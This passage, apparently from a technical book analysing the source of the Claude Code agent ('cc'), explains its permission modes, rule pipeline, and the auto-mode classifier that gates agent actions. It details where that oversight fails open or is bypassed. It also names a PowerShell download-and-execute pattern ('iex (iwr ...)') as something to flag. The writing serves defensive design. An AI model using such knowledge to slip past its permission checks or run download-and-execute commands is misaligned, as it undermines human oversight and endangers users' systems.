5. **Cap instruction content and enforce it.** The 40,000-character limit on CLAUDE.md files and the additional truncation on AutoMem/TeamMem entrypoints exist because unbounded context injection degrades model performance. The ETH Zurich study confirms this empirically. Set hard limits and truncate rather than letting instruction bloat push your agent into "the dumb zone." Consider conditional rules (path-scoped loading) as a structural solution to minimize what is loaded per turn.

6. **Support drop-in directories for composable policy.** cc's `managed-settings.d/*.json` follows the systemd convention and solves a real operational problem: multiple teams need to ship independent policy fragments without coordinating on a single file. If your agent has enterprise customers, they will need this. The alphabetical sort with later files winning provides predictable override semantics.

7. **Cache aggressively, invalidate atomically.** The three-tier settings cache (session then per-source then per-file) means that a typical query does not re-read any settings files from disk. The `resetSettingsCache()` function invalidates all three tiers at once, preventing inconsistencies. For any agent that reads configuration on every turn, this pattern is table stakes — stale config is worse than no config. Clone cached objects before returning them to prevent mutation-based cache corruption.

8. **Separate the meta-layer from the instruction layer.** cc's settings cascade controls *which* CLAUDE.md sources load, *which* rules apply, and *what* the trust boundaries are. The CLAUDE.md files themselves provide the behavioral instructions. This separation of concerns means that enterprise administrators can lock down the meta-layer (via managed settings) without needing to curate every instruction file. Your agent should have the same two-level architecture: a trusted meta-layer that gates an untrusted instruction layer.
# Part VI. Safety, Permissions, and Hooks

An agent that can execute arbitrary commands, write arbitrary files, and make arbitrary network requests is a security incident waiting to happen. Part VI covers the safety layer that sits between the model's intent and the system's side effects: permission modes, command classification, filesystem guards, the React hook that evaluates every tool request, and the hook system that provides deterministic lifecycle events.

The theme of Part VI is the defense-in-depth safety architecture. These six chapters are grouped together because they form cc's complete safety subsystem -- from the permission model that defines what is allowed, through the classifiers that assess risk, to the hooks that enforce policies at every lifecycle point. Each layer can block or modify a tool call independently, providing redundant protection against the failure modes documented in HER sections 6.11 through 6.17. The result is a multi-layered defense where no single point of failure can compromise the system's security posture.

Safety is the subsystem where cc most visibly diverges from simple agent frameworks. Most frameworks offer a single permission gate -- an allow/deny prompt that asks the user before each tool call. cc offers six distinct permission modes, a multi-stage command classifier, filesystem path guards with symlink traversal defense, a React hook that evaluates every request in context, and a hook system that allows custom lifecycle policies to be injected at every stage. This sophistication reflects a core insight from HER: that prompt injection (failure mode 6.13) and supply chain attacks via MCP, skills, and hooks are not theoretical threats but practical attack vectors that require defense at multiple layers.

Chapter 32 covers the permission model -- the six modes (default, plan, acceptEdits, bypassPermissions, dontAsk, auto), rule parsing, and evaluation logic. The permission model is the highest-level safety gate: it determines which tools require explicit user approval, which can be auto-approved based on rules, and which are always denied. Understanding the permission model is essential for understanding how cc balances safety with productivity.

Chapter 33 examines the bash classifier and YOLO scoring -- how commands are mapped to risk bands, how auto mode uses classification for automatic approvals, and the yoloClassifier's heuristics. The bash classifier is cc's implementation of HER's Pattern 10 (Command Risk Classification): a multi-stage pipeline that assigns risk bands to shell commands before they execute, enabling fine-grained auto-approval of safe commands while requiring approval for dangerous ones.

Chapter 34 covers filesystem permissions and path guards -- symlink traversal defense, glob allow and deny patterns, and denial tracking. Filesystem guards prevent the model from reading or writing files outside the allowed workspace, and they defend against symlink traversal attacks that could redirect file operations to sensitive locations.

Chapter 35 dissects `useCanUseTool`, the approximately 200-line React hook that evaluates permission decisions, interacts with UI prompts, and enforces plan mode restrictions. This hook is the bridge between the permission model and the user interface: it takes a tool request, evaluates it against the current permission rules, and either approves it, denies it, or prompts the user for a decision. Understanding this hook is essential for understanding how cc's safety decisions are surfaced to the user.

Chapter 36 covers the hook schema in `schemas/hooks.ts` -- each event documented with trigger, payload, and effect, plus hook types (command, prompt, HTTP, agent, function) and exit code semantics. The hook schema is the contract that allows external processes to inject policy into cc's tool dispatch pipeline. It is cc's implementation of HER's Pattern 12 (Deterministic Lifecycle Hooks): a well-defined set of events with clear semantics that external tools can subscribe to.

Chapter 37 traces the execution pipelines per hook type, the hook registry, async hook registry, SSRF guard for HTTP hooks, and session hooks. This chapter covers how hooks are actually executed: the command hook that spawns a subprocess, the prompt hook that injects text into the model's input, the HTTP hook that sends a request to an external server, the agent hook that triggers a sub-agent, and the function hook that calls an in-process function. Each hook type has its own execution pipeline with its own safety guarantees.

By the end of this Part, you should understand cc's multi-layered safety architecture: how permission modes gate actions, how classifiers assess risk, how filesystem guards prevent path traversal, how the useCanUseTool hook evaluates every request, and how the hook system provides extensible lifecycle events for custom policy enforcement. This understanding is essential for Part IX (which covers the threat model) and Part X (which evaluates cc's safety architecture against HER's security analysis).

Return to the Table of Contents in the front matter for an overview of all ten parts and fifty-seven chapters.
# The Permission Model: Modes and Rules

## Overview

Every tool invocation in cc passes through a permission gate before execution. This gate is not a single `if` statement but a layered decision engine that weighs six permission modes, rule sets from eight different sources, per-tool `checkPermissions()` callbacks, classifier-based risk assessment, denial-tracking heuristics, and human-in-the-loop prompts. The entire system lives in three files: `src/utils/permissions/permissions.ts` (~1,486 LOC), `src/utils/permissions/PermissionMode.ts` (~141 LOC), and `src/utils/permissions/PermissionRule.ts` (~40 LOC), with supporting types in `src/types/permissions.ts` and rule parsing in `src/utils/permissions/permissionRuleParser.ts` (~198 LOC).

The permission model is cc's answer to HER's §12 guardrails thesis: the five-layer defense-in-depth (prompt-level, schema-level, runtime approval, tool-level validation, lifecycle hooks) maps directly onto cc's pipeline. Modes determine *which* layers are active; rules determine *what* passes through each layer; the classifier adds an AI-driven gate for auto mode; and denial tracking prevents the agent from spiraling through infinite permission loops.

The relationship to HER's §11 human-in-the-loop patterns is equally direct. cc's `default` mode implements tiered escalation — deterministic rule checks (Tier 1), then tool-level validation (Tier 2), then human prompts (Tier 3). The `auto` mode adds a confidence-based routing layer (Tier 2.5): the YOLO classifier acts as a confidence estimator that decides whether the agent can proceed autonomously or must escalate to the human.

This chapter dissects the six permission modes, the rule evaluation pipeline, and the auto mode classifier integration. Chapters 33–37 cover the downstream consumers: the bash classifier, filesystem guards, the `useCanUseTool` hook, and the hook schema.

## Data structures and contracts

### PermissionMode: the mode enum

The core mode type is a union of six string literals, split into external (user-addressable) and internal (ant-only) sets:

```typescript
// src/types/permissions.ts:L16-L38
export const EXTERNAL_PERMISSION_MODES = [
  'acceptEdits',
  'bypassPermissions',
  'default',
  'dontAsk',
  'plan',
] as const

export type ExternalPermissionMode = (typeof EXTERNAL_PERMISSION_MODES)[number]

// Exhaustive mode union for typechecking. The user-addressable runtime set
// is INTERNAL_PERMISSION_MODES below.
export type InternalPermissionMode = ExternalPermissionMode | 'auto' | 'bubble'
export type PermissionMode = InternalPermissionMode

// Runtime validation set: modes that are user-addressable (settings.json
// defaultMode, --permission-mode CLI flag, conversation recovery).
export const INTERNAL_PERMISSION_MODES = [
  ...EXTERNAL_PERMISSION_MODES,
  ...(feature('TRANSCRIPT_CLASSIFIER') ? (['auto'] as const) : ([] as const)),
] as const satisfies readonly PermissionMode[]

export const PERMISSION_MODES = INTERNAL_PERMISSION_MODES
```

The five external modes correspond to distinct trust levels:

- **`default`** — the baseline. Every potentially destructive tool requires human approval. Read-only tools may auto-approve depending on rules.
- **`plan`** — read-only mode. The agent can explore and plan but cannot modify files. File writes, bash commands, and edits are blocked. See Chapter 45 for the full plan-mode V2 architecture.
- **`acceptEdits`** — a middle ground. File reads, writes, and edits are auto-approved; bash commands still require approval. This is the "I trust the agent to edit my files but not to run arbitrary shell commands" mode.
- **`bypassPermissions`** — everything is auto-approved. No prompts, no checks beyond the rule-based deny/ask enforcement at steps 1a–1g. The UI displays this with the `error` color to signal its danger.
- **`dontAsk`** — the inverse of bypass: instead of allowing everything, it silently denies everything that would require a prompt. This is useful for CI pipelines where the agent should only perform operations that are pre-approved by rules, failing quietly on anything else.

The `auto` mode is feature-gated behind `feature('TRANSCRIPT_CLASSIFIER')` — it only appears in the `PERMISSION_MODES` runtime array when that build flag is enabled (`src/types/permissions.ts:L33-L36`). The `bubble` mode exists in the type union but has no runtime config entry, making it a reserved slot for future use.

Each mode carries display metadata — title, short title, symbol, and color — in the `PERMISSION_MODE_CONFIG` map. Notably, `bypassPermissions` and `dontAsk` both use the `error` color, signaling their danger, while `auto` uses `warning`:

```typescript
// src/utils/permissions/PermissionMode.ts:L42-L91
const PERMISSION_MODE_CONFIG: Partial<
  Record<PermissionMode, PermissionModeConfig>
> = {
  default: {
    title: 'Default',
    shortTitle: 'Default',
    symbol: '',
    color: 'text',
    external: 'default',
  },
  plan: {
    title: 'Plan Mode',
    shortTitle: 'Plan',
    symbol: PAUSE_ICON,
    color: 'planMode',
    external: 'plan',
  },
  acceptEdits: {
    title: 'Accept edits',
    shortTitle: 'Accept',
    symbol: '⏵⏵',
    color: 'autoAccept',
    external: 'acceptEdits',
  },
  bypassPermissions: {
    title: 'Bypass Permissions',
    shortTitle: 'Bypass',
    symbol: '⏵⏵',
    color: 'error',
    external: 'bypassPermissions',
  },
  dontAsk: {
    title: "Don't Ask",
    shortTitle: 'DontAsk',
    symbol: '⏵⏵',
    color: 'error',
    external: 'dontAsk',
  },
  ...(feature('TRANSCRIPT_CLASSIFIER')
    ? {
        auto: {
          title: 'Auto mode',
          shortTitle: 'Auto',
          symbol: '⏵⏵',
          color: 'warning' as ModeColorKey,
          external: 'default' as ExternalPermissionMode,
        },
      }
    : {}),
}
```

The `external` field on the `auto` mode is `'default'`, not `'auto'` — this is critical: external consumers (the API, the CLI flags) never see `auto` as a valid mode; it's an ant-internal escalation of `default` that adds AI classification. The function `isExternalPermissionMode` enforces this boundary at `src/utils/permissions/PermissionMode.ts:L97-L105`. When `USER_TYPE` is not `'ant'`, every mode is external; when it is `'ant'`, `auto` and `bubble` are stripped from the external set.

The mode configuration also supports the `isDefaultMode` helper, which returns true for both `'default'` and `undefined` — an important edge case when the mode hasn't been set yet during bootstrap (`src/utils/permissions/PermissionMode.ts:L127-L129`).

### PermissionRule: the rule record

A rule is a triple: *where it came from*, *what behavior it mandates*, and *which tool (and optionally which content) it targets*:

```typescript
// src/types/permissions.ts:L54-L79
export type PermissionRuleSource =
  | 'userSettings'
  | 'projectSettings'
  | 'localSettings'
  | 'flagSettings'
  | 'policySettings'
  | 'cliArg'
  | 'command'
  | 'session'

export type PermissionRuleValue = {
  toolName: string
  ruleContent?: string
}

export type PermissionRule = {
  source: PermissionRuleSource
  ruleBehavior: PermissionBehavior
  ruleValue: PermissionRuleValue
}
```

The eight `PermissionRuleSource` values form a cascade that mirrors the settings hierarchy (Chapter 31). The first five (`userSettings`, `projectSettings`, `localSettings`, `flagSettings`, `policySettings`) correspond to the settings files on disk. The last three (`cliArg`, `command`, `session`) are in-memory sources that exist only for the current invocation. The `policySettings` source is the enterprise managed-settings layer — when `shouldAllowManagedPermissionRulesOnly` is true, all rules from other sources are stripped during `syncPermissionRulesFromDisk` (`src/utils/permissions/permissions.ts:L1426-L1446`).

The `PermissionBehavior` is one of `'allow' | 'deny' | 'ask'` (`src/types/permissions.ts:L44`). The `ruleContent` field enables content-scoped rules like `Bash(npm install)` — allow or deny a specific command prefix rather than the entire Bash tool. The parser at `src/utils/permissions/permissionRuleParser.ts:L93-L133` handles the string serialization format `ToolName(content)`, including escaped parentheses within content.

```mermaid
classDiagram
    class PermissionRule {
        +PermissionRuleSource source
        +PermissionBehavior ruleBehavior
        +PermissionRuleValue ruleValue
    }
    class PermissionRuleSource {
        <<enumeration>>
        userSettings
        projectSettings
        localSettings
        flagSettings
        policySettings
        cliArg
        command
        session
    }
    class PermissionBehavior {
        <<enumeration>>
        allow
        deny
        ask
    }
    class PermissionRuleValue {
        +string toolName
        +string ruleContent
    }
    PermissionRule --> PermissionRuleSource : source
    PermissionRule --> PermissionBehavior : ruleBehavior
    PermissionRule --> PermissionRuleValue : ruleValue
```

The Zod schemas for these types are defined in `PermissionRule.ts`:

```typescript
// src/utils/permissions/PermissionRule.ts:L25-L40
export const permissionBehaviorSchema = lazySchema(() =>
  z.enum(['allow', 'deny', 'ask']),
)

export const permissionRuleValueSchema = lazySchema(() =>
  z.object({
    toolName: z.string(),
    ruleContent: z.string().optional(),
  }),
)
```

The `lazySchema` wrapper breaks circular import dependencies that would otherwise arise from the permission module graph. The `permissionBehaviorSchema` validates the three-behavior enum at runtime, while `permissionRuleValueSchema` validates the structure of rule content.

### ToolPermissionContext: the aggregated permission state

The `ToolPermissionContext` type bundles the mode, all rule sets (allow/deny/ask, keyed by source), and auxiliary flags into a single immutable context object passed through the entire permission pipeline:

```typescript
// src/types/permissions.ts:L427-L441
export type ToolPermissionContext = {
  readonly mode: PermissionMode
  readonly additionalWorkingDirectories: ReadonlyMap<
    string,
    AdditionalWorkingDirectory
  >
  readonly alwaysAllowRules: ToolPermissionRulesBySource
  readonly alwaysDenyRules: ToolPermissionRulesBySource
  readonly alwaysAskRules: ToolPermissionRulesBySource
  readonly isBypassPermissionsModeAvailable: boolean
  readonly strippedDangerousRules?: ToolPermissionRulesBySource
  readonly shouldAvoidPermissionPrompts?: boolean
  readonly awaitAutomatedChecksBeforeDialog?: boolean
  readonly prePlanMode?: PermissionMode
}
```

The three rule maps — `alwaysAllowRules`, `alwaysDenyRules`, `alwaysAskRules` — are each keyed by `PermissionRuleSource`, storing string arrays of rule values. This means the context holds up to 3 × 8 = 24 rule arrays. The `getAllowRules`, `getDenyRules`, and `getAskRules` functions at `src/utils/permissions/permissions.ts:L124-L231` flatten these across all sources, producing a single `PermissionRule[]` for evaluation.

The `shouldAvoidPermissionPrompts` flag is the headless-agent escape hatch — when true, the pipeline auto-denies instead of prompting the user (who doesn't exist in a background agent). The `isBypassPermissionsModeAvailable` flag lets plan mode inherit bypass permissions from the session's original mode. The `strippedDangerousRules` field tracks rules that were removed from user/project settings by the managed-settings system, enabling visibility into what was taken away. The `prePlanMode` field stores the mode that was active before entering plan mode, enabling restoration when the agent exits plan mode.

### DenialTrackingState: the runaway guard

Auto mode tracks how many classifier denials have accumulated, falling back to interactive prompting when thresholds are exceeded:

```typescript
// src/utils/permissions/denialTracking.ts:L7-L15
export type DenialTrackingState = {
  consecutiveDenials: number
  totalDenials: number
}

export const DENIAL_LIMITS = {
  maxConsecutive: 3,
  maxTotal: 20,
} as const
```

Three consecutive denials or 20 total denials in a session force the system to fall back to prompting (`shouldFallbackToPrompting` at `src/utils/permissions/denialTracking.ts:L40-L44`). The `recordSuccess` function resets the consecutive count but not the total — a single allowed action breaks the consecutive streak but doesn't erase the history (`src/utils/permissions/denialTracking.ts:L32-L38`). This is cc's implementation of HER's §12.4 rate-limiting pattern — a safeguard against the agent getting stuck in an auto-approve/auto-deny loop with no human oversight.

### PermissionDecisionReason: explaining every decision

Every permission decision carries a `decisionReason` that explains *why* the decision was made. The type is a discriminated union with 10 variants (`src/types/permissions.ts:L271-L324`):

```typescript
// src/types/permissions.ts:L271-L282 (partial)
export type PermissionDecisionReason =
  | { type: 'rule'; rule: PermissionRule }
  | { type: 'mode'; mode: PermissionMode }
  | { type: 'subcommandResults'; reasons: Map<string, PermissionResult> }
  | { type: 'permissionPromptTool'; permissionPromptToolName: string; toolResult: unknown }
  | { type: 'hook'; hookName: string; hookSource?: string; reason?: string }
  | { type: 'asyncAgent'; reason: string }
  | ...
```

The `rule` variant traces the decision back to a specific rule and its source, enabling the UI to display "Denied by policy rule 'Bash(rm:*)' from policySettings." The `mode` variant identifies which mode triggered the decision. The `classifier` variant carries the classifier name and reason, enabling analytics on classifier accuracy. The `safetyCheck` variant includes a `classifierApprovable` boolean that determines whether auto mode can route the check to the classifier or must always prompt the user.

## Control flow

### The permission pipeline

The core function `hasPermissionsToUseTool` at `src/utils/permissions/permissions.ts:L473-L956` is the entry point for every tool permission check. It delegates to `hasPermissionsToUseToolInner` (steps 1–3), then applies mode-based transformations (steps 4+). The pipeline proceeds in strict order; earlier steps short-circuit later ones:

```mermaid
stateDiagram-v2
    [*] --> DenyRuleCheck: tool invoked

    DenyRuleCheck --> AskRuleCheck: no deny rule
    DenyRuleCheck --> [*]: deny (step 1a)

    AskRuleCheck --> ToolCheckPermissions: no ask rule (or sandbox auto-allow)
    AskRuleCheck --> [*]: ask (step 1b)

    ToolCheckPermissions --> ToolDenied: checkPermissions returns deny
    ToolCheckPermissions --> UserInteractionCheck: not denied

    ToolDenied --> [*]: deny (step 1d)

    UserInteractionCheck --> ContentAskRuleCheck: tool doesn't require interaction
    UserInteractionCheck --> [*]: ask (step 1e)

    ContentAskRuleCheck --> SafetyCheckCheck: no content-specific ask rule
    ContentAskRuleCheck --> [*]: ask (step 1f)

    SafetyCheckCheck --> BypassPermissionsCheck: no safety check
    SafetyCheckCheck --> [*]: ask - bypass-immune (step 1g)

    BypassPermissionsCheck --> AlwaysAllowCheck: mode is not bypass
    BypassPermissionsCheck --> [*]: allow (step 2a)

    AlwaysAllowCheck --> PassthroughToAsk: no always-allow rule
    AlwaysAllowCheck --> [*]: allow (step 2b)

    PassthroughToAsk --> ModeTransform: convert passthrough to ask
    ModeTransform --> DontAskTransform: check mode-specific transforms
    ModeTransform --> AutoModeClassifier: mode is auto
    ModeTransform --> HeadlessAutoDeny: shouldAvoidPermissionPrompts

    DontAskTransform --> [*]: deny (dontAsk converts ask→deny)
    AutoModeClassifier --> [*]: allow or deny (classifier decision)
    HeadlessAutoDeny --> [*]: deny (no user to prompt)
    PassthroughToAsk --> [*]: ask (return to user)
```

### Step-by-step walkthrough

**Step 1a — Deny rules.** The pipeline first checks if the entire tool is denied via `getDenyRuleForTool`. This iterates all eight rule sources looking for a deny rule matching the tool name (`src/utils/permissions/permissions.ts:L1171-L1181`). If found, the tool is immediately blocked with a `decisionReason` of `{type: 'rule', rule}`. Deny rules are checked first because they represent hard security boundaries — nothing should override them.

**Step 1b — Ask rules.** Next, `getAskRuleForTool` checks if an ask rule covers the tool. There's one exception: if the tool is Bash, sandboxing is enabled, `autoAllowBashIfSandboxed` is on, and the specific command will run in a sandbox, the ask rule is bypassed and the pipeline falls through to tool-specific checks (`src/utils/permissions/permissions.ts:L1184-L1206`). This is a pragmatic trade-off: sandboxed commands are already constrained, so forcing a prompt adds friction without meaningful safety improvement.

**Step 1c — Tool.checkPermissions().** Each tool implements its own `checkPermissions()` method. For Bash, this runs the command classifier pipeline (Chapter 14). For file tools, this checks path safety. The result is a `PermissionResult` — allow, deny, ask, or passthrough (`src/utils/permissions/permissions.ts:L1210-L1223`). This step is where the tool itself participates in the permission decision, implementing HER's layer 4 (tool-level validation).

**Step 1d — Tool denial.** If `checkPermissions` returns `deny`, the pipeline returns immediately (`src/utils/permissions/permissions.ts:L1226-L1228`). This catches bash subcommand denies wrapped in `subcommandResults` — no need to inspect `decisionReason.type`.

**Step 1e — User interaction required.** Some tools (like `AskUserQuestion`) must interact with the user even in bypass mode. The `requiresUserInteraction()` method flags these, and the pipeline respects it unconditionally (`src/utils/permissions/permissions.ts:L1231-L1236`). This prevents `bypassPermissions` from breaking tools that are structurally designed around human interaction.

**Step 1f — Content-specific ask rules.** When `checkPermissions` returns `ask` with a `decisionReason` of `{type: 'rule', ruleBehavior: 'ask'}`, this means a content-scoped rule (e.g., `Bash(npm publish:*)`) explicitly requires approval. This takes precedence even over `bypassPermissions` mode (`src/utils/permissions/permissions.ts:L1244-L1250`). The comment in the source explains the rationale: "When a user explicitly configures a content-specific ask rule, the tool's checkPermissions returns `{behavior:'ask', decisionReason:{type:'rule', rule:{ruleBehavior:'ask'}}}`. This must be respected even in bypass mode, just as deny rules are respected at step 1d."

**Step 1g — Safety checks.** Safety checks for protected paths (`.git/`, `.claude/`, `.vscode/`, shell configs) are *bypass-immune*. Even if a PreToolUse hook returns `allow`, these must still prompt (`src/utils/permissions/permissions.ts:L1255-L1260`). The `safetyCheck` decision reason includes a `classifierApprovable` boolean that determines whether auto mode can route the check to the YOLO classifier. This implements HER's §12.3 privilege boundary pattern — certain system paths are treated as security-critical regardless of the permission mode.

**Step 2a — Bypass permissions.** After all rule-based checks pass, the pipeline checks whether `bypassPermissions` mode is active (or whether plan mode was entered from a bypass session via `isBypassPermissionsModeAvailable`). If so, everything is allowed (`src/utils/permissions/permissions.ts:L1268-L1281`). The `isBypassPermissionsModeAvailable` flag is stored in `ToolPermissionContext` and persists across mode transitions, allowing plan mode to "remember" that the original session was in bypass mode.

**Step 2b — Always-allow rules.** If a rule explicitly allows the entire tool, the pipeline returns allow with the matching rule as the `decisionReason` (`src/utils/permissions/permissions.ts:L1284-L1297`). The `toolAlwaysAllowedRule` function checks for whole-tool matches — a rule like `Bash(npm install)` does *not* match here because it has content; only `Bash` or `Bash(*)` match.

**Step 3 — Passthrough to ask.** If the tool's `checkPermissions` returned `passthrough` (meaning the tool has no opinion), the pipeline converts it to `ask` — the user must be prompted (`src/utils/permissions/permissions.ts:L1300-L1318`). The `passthrough` behavior exists so that tools without a custom `checkPermissions` override don't need to explicitly return `ask` with a manufactured `decisionReason`.

**Post-step — Mode transformations.** The outer `hasPermissionsToUseTool` function then applies mode-specific transformations on any `ask` result:

1. **dontAsk mode**: Converts `ask` to `deny`, silently rejecting the tool (`src/utils/permissions/permissions.ts:L506-L517`). The `DONT_ASK_REJECT_MESSAGE` helper provides a user-facing message.
2. **Auto mode**: Routes the decision to the YOLO classifier, with multiple fast-path optimizations before invoking the AI classifier (`src/utils/permissions/permissions.ts:L519-L927`).
3. **Headless agents**: When `shouldAvoidPermissionPrompts` is true and no classifier is available, runs `PermissionRequest` hooks first, then auto-denies (`src/utils/permissions/permissions.ts:L932-L952`).

### Rule evaluation flow

Rules are evaluated from eight sources in a flat order — there is no priority system between sources. The `PERMISSION_RULE_SOURCES` array at `src/utils/permissions/permissions.ts:L109-L114` defines the source order used for iteration, but since each source is checked independently, the effective priority is: deny > ask > allow (because deny and ask short-circuit before allow is checked).

The rule-matching logic is implemented in `toolMatchesRule` at `src/utils/permissions/permissions.ts:L238-L269`. This function handles three cases: direct tool-name match, MCP server-level match, and MCP wildcard match. A rule like `mcp__server1` matches all tools from that server; `mcp__server1__*` provides the same effect explicitly. Content-scoped rules (those with `ruleContent` defined) are excluded from whole-tool matching:

```typescript
// src/utils/permissions/permissions.ts:L238-L269
function toolMatchesRule(
  tool: Pick<Tool, 'name' | 'mcpInfo'>,
  rule: PermissionRule,
): boolean {
  // Rule must not have content to match the entire tool
  if (rule.ruleValue.ruleContent !== undefined) {
    return false
  }

  const nameForRuleMatch = getToolNameForPermissionCheck(tool)

  // Direct tool name match
  if (rule.ruleValue.toolName === nameForRuleMatch) {
    return true
  }

  // MCP server-level permission: rule "mcp__server1" matches tool "mcp__server1__tool1"
  const ruleInfo = mcpInfoFromString(rule.ruleValue.toolName)
  const toolInfo = mcpInfoFromString(nameForRuleMatch)

  return (
    ruleInfo !== null &&
    toolInfo !== null &&
    (ruleInfo.toolName === undefined || ruleInfo.toolName === '*') &&
    ruleInfo.serverName === toolInfo.serverName
  )
}
```

When content-scoped rules are needed, the `getRuleByContentsForTool` function at `src/utils/permissions/permissions.ts:L349-L390` builds a `Map<string, PermissionRule>` keyed by rule content, enabling tools like Bash to look up prefix rules efficiently.

```mermaid
flowchart TD
    A[Tool invocation] --> B{Deny rule?}
    B -->|Yes| C[Return deny]
    B -->|No| D{Ask rule?}
    D -->|Yes + no sandbox| E[Return ask]
    D -->|Yes + sandbox auto-allow| F[Fall through]
    D -->|No| F
    F --> G[Tool.checkPermissions]
    G --> H{Result?}
    H -->|deny| I[Return deny]
    H -->|ask + user interaction| J[Return ask]
    H -->|ask + content ask rule| K[Return ask - bypass immune]
    H -->|ask + safety check| L[Return ask - bypass immune]
    H -->|passthrough| M{Mode?}
    H -->|allow| N[Continue to mode check]
    M -->|bypassPermissions| O[Return allow]
    M -->|default| P{Always-allow rule?}
    P -->|Yes| Q[Return allow]
    P -->|No| R[Convert passthrough→ask]
    R --> S{Mode transform}
    S -->|dontAsk| T[Return deny]
    S -->|auto| U[Classifier decision]
    S -->|headless| V[Return deny]
    S -->|default| W[Return ask to user]
```

### Auto mode's multi-layer fast-path

Auto mode is the most complex permission path. Before invoking the expensive YOLO classifier (which makes a separate API call), it tries three fast paths:

1. **acceptEdits fast-path** — If the tool would be allowed under `acceptEdits` mode (checked by temporarily swapping the mode in the context), the classifier is skipped. This avoids an API call for safe operations like file edits in the working directory. Agent and REPL tools are excluded from this fast-path because their `checkPermissions` returns `allow` for `acceptEdits`, which would silently bypass the classifier for code that could contain VM escapes (`src/utils/permissions/permissions.ts:L600-L656`). The implementation temporarily overrides `getAppState` to return a context with `mode: 'acceptEdits'`, runs `checkPermissions` under that context, and checks if the result is `allow`.

2. **Safe-tool allowlist** — A hardcoded list of tools that are considered safe in auto mode (e.g., read-only tools). Tools on this list are auto-allowed without classifier consultation (`src/utils/permissions/permissions.ts:L660-L686`). The allowlist is maintained in `classifierDecision.ts` (loaded conditionally via `feature('TRANSCRIPT_CLASSIFIER')`).

3. **YOLO classifier** — The fallback. The `classifyYoloAction` function at `src/utils/permissions/yoloClassifier.ts` formats the tool action as a classifier prompt, sends it to the model, and respects the result. If the classifier is unavailable (API error), behavior depends on the `tengu_iron_gate_closed` GrowthBook feature flag: when true (fail-closed), the action is denied; when false (fail-open), the pipeline falls back to normal permission handling (`src/utils/permissions/permissions.ts:L846-L876`). The `CLASSIFIER_FAIL_CLOSED_REFRESH_MS` constant at `src/utils/permissions/permissions.ts:L107` sets a 30-minute refresh interval for the flag.

The classifier also has a transcript-too-long escape: if the conversation context exceeds the classifier model's window, the pipeline falls back to interactive prompting rather than retrying a doomed API call (`src/utils/permissions/permissions.ts:L819-L842`). This is a deterministic condition (the transcript only grows), so retry would never succeed.

### The checkRuleBasedPermissions subset

For scenarios that need only the rule-based steps (without mode transformations, classifiers, or prompts), cc provides `checkRuleBasedPermissions` at `src/utils/permissions/permissions.ts:L1071-L1156`. This function runs steps 1a, 1b, 1c, 1d, 1f, and 1g but skips steps 1e, 2a, 2b, and all post-step mode transformations. It's used by `bypassPermissions` mode to enforce deny rules and ask rules even when the mode would otherwise allow everything. The function returns `null` when no rule objects — meaning the tool can proceed — or a deny/ask decision when a rule blocks it.

### Rule synchronization from disk

When settings change on disk (e.g., a user edits `settings.json` while cc is running), the `syncPermissionRulesFromDisk` function at `src/utils/permissions/permissions.ts:L1419-L1471` replaces all disk-based rules in the context. The implementation first clears all rules from the three disk sources (`userSettings`, `projectSettings`, `localSettings`) for all three behaviors, then applies the new rules. This two-step approach prevents stale rules from persisting when a rule is removed from settings — a simpler "only add" approach would leave deleted rules in the context.

When `shouldAllowManagedPermissionRulesOnly` is true, the function also clears all non-policy sources (`userSettings`, `projectSettings`, `localSettings`, `cliArg`, `session`) before applying the new rules, effectively making policy rules the only source of truth (`src/utils/permissions/permissions.ts:L1426-L1446`).

### Auto mode state management

The `autoModeState` module at `src/utils/permissions/autoModeState.ts` manages three pieces of global state for auto mode: `autoModeActive` (whether auto mode is currently running), `autoModeFlagCli` (whether the `--auto` flag was passed on the CLI), and `autoModeCircuitBroken` (whether GrowthBook has remotely disabled auto mode). The circuit breaker is set by the async `verifyAutoModeGateAccess` check, which reads the `tengu_auto_mode_config.enabled` flag from GrowthBook. If the flag is `'disabled'`, the circuit breaker trips and auto mode cannot be re-entered, even via SDK or explicit user action (`src/utils/permissions/autoModeState.ts:L7-L33`).

## Edge cases and failure modes

### PowerShell in auto mode

PowerShell is excluded from auto mode classification unless the `POWERSHELL_AUTO_MODE` build flag is enabled. Without it, PowerShell always requires interactive approval — the classifier is never invoked. This is a defense-in-depth measure: PowerShell's `iex (iwr ...)` patterns are download-and-execute vectors that the classifier might not reliably catch. When `POWERSHELL_AUTO_MODE` is enabled, the classifier prompt appends `POWERSHELL_DENY_GUIDANCE` so it recognizes patterns like `iex (iwr ...)` as dangerous (`src/utils/permissions/permissions.ts:L572-L591`).

### Non-classifier-approvable safety checks

Some safety checks are `classifierApprovable: true` (e.g., sensitive-file paths like `.claude/` or `.git/`) — the classifier can evaluate these because the context tells it whether the access is legitimate. Others are `classifierApprovable: false` (e.g., Windows path bypass attempts, cross-machine bridge messages) — these are always immune to auto-approval paths and must prompt the user regardless (`src/utils/permissions/permissions.ts:L532-L548`). This two-tier safety check system implements HER's §11.2 tiered escalation: non-classifier-approvable checks are Tier 4 (human expert required), while classifier-approvable checks are Tier 2.5 (classifier can decide, with human fallback).

### MCP server-level rules

Rules can match MCP tools at the server level: a rule targeting `mcp__server1` matches all tools from that server (`mcp__server1__tool1`, `mcp__server1__tool2`, etc.), and the wildcard `mcp__server1__*` provides the same effect explicitly. In skip-prefix mode (`CLAUDE_AGENT_SDK_MCP_NO_PREFIX`), MCP tools have unprefixed display names that could collide with builtin names, so the rule-matching logic uses `getToolNameForPermissionCheck` to resolve the fully qualified name before matching. This prevents a user's `Bash` allow rule from accidentally allowing an MCP tool that replaced the builtin Bash tool.

### Legacy tool name aliasing

When tools are renamed (e.g., `Task` → `Agent`, `KillShell` → `TaskStop`), old rule strings would silently break. The `LEGACY_TOOL_NAME_ALIASES` map translates old names to canonical names during parsing:

```typescript
// src/utils/permissions/permissionRuleParser.ts:L21-L29
const LEGACY_TOOL_NAME_ALIASES: Record<string, string> = {
  Task: AGENT_TOOL_NAME,
  KillShell: TASK_STOP_TOOL_NAME,
  AgentOutputTool: TASK_OUTPUT_TOOL_NAME,
  BashOutputTool: TASK_OUTPUT_TOOL_NAME,
  ...((feature('KAIROS') || feature('KAIROS_BRIEF')) && BRIEF_TOOL_NAME
    ? { Brief: BRIEF_TOOL_NAME }
    : {}),
}
```

The `normalizeLegacyToolName` function is called during `permissionRuleValueFromString`, so a `settings.json` containing `"Task"` is automatically translated to `"Agent"` at parse time. The reverse mapping `getLegacyToolNames` enables the UI to display both old and new names when showing rule information.

### Headless agent permission hooks

